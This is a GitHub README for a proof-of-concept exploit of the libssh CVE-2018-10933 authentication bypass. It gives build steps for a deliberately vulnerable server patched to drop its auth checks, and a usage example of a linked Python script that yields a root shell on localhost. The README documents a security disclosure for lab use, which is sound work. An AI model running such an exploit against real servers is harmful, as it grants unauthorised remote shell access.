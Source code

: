# CVE-2018-10933 - Server-side Auth. Bypass
This is a simple Proof of Concept (PoC) to demonstrate successful
exploitation of the authentication-bypass vulnerability as found in
the server-side code of libssh 0.6 and later. See [Security Advisory for CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt)
for more information.

## Vulnerable Server POC
In order to spawn and control a shell, the server code must somehow allow
several SSH requests such as `shell channel request`. Most implementations found
in the wild disallow them by checking the internal session's authentication
state. If the programmer insufficiently checked the authentication states, the
exploitation may be successful.

The [CVE-2018-10933-server.patch](CVE-2018-10933-server.patch) patch removes
checks for the authentication states in the `ssh_server_fork.c` example shipped
with libssh-0.7.4. See below for the patching instructions.

### Building the vulnerable server
```
$ wget https://www.libssh.org/files/0.7/libssh-0.7.4.tar.xz
$ tar -xvf libssh-0.7.4.tar.xz
$ cd libssh-0.7.4/
$ cd examples/
$ patch -p0 < CVE-2018-10933-server.patch
$ cd ..
$ mkdir -p build
$ cmake ..
$ make
```

### Running the vulnerable server
Here we're running the vulnerable SSH server to listen on localhost on port
tcp/2222:
```
$ cd examples/
$ sudo ./ssh_server_fork -p 2222 127.0.0.1
```

## Exploit
This repository includes a simple [exploit](CVE-2018-10933-SHELL-POC.py) code
written in Python that allow you to pass commands directly to the shell of a
vulnerable libssh server (see above for a vulnerable server implementation).

#### Prerequisites
 * Python 2.7 or 3.4+
 * [Paramiko](http://www.paramiko.org/)

### Features
 * Remote shell (non-interactive)
 * TCP Port Forwarding (experimental)

#### Usage
```
$ git clone https://github.com/e3prom/miscsec.git
$ cd miscsec/CVE-2018-10933
$ python CVE-2018-10933-SHELL-POC.py --verbose -p 2222 127.0.0.1
[*] Type 'quit' to exit this command prompt.

$ id
uid=0(root) gid=0(root) groups=0(root),999(docker)
$ quit
```

## Disclaimer
As always, please check your local laws and regulation regarding the use of
this software. Do not use this exploit on a server without the owner's
consent and authorization.

## Credits
* The vulnerability has been discovered by Peter Winter-Smith of NCC Group.
* [CVE-2018-10933: libssh: authentication bypass in server code](https://seclists.org/oss-sec/2018/q4/55)
* [SoledaD208's CVE-2018-10933 very simple POC](https://github.com/SoledaD208/CVE-2018-10933)
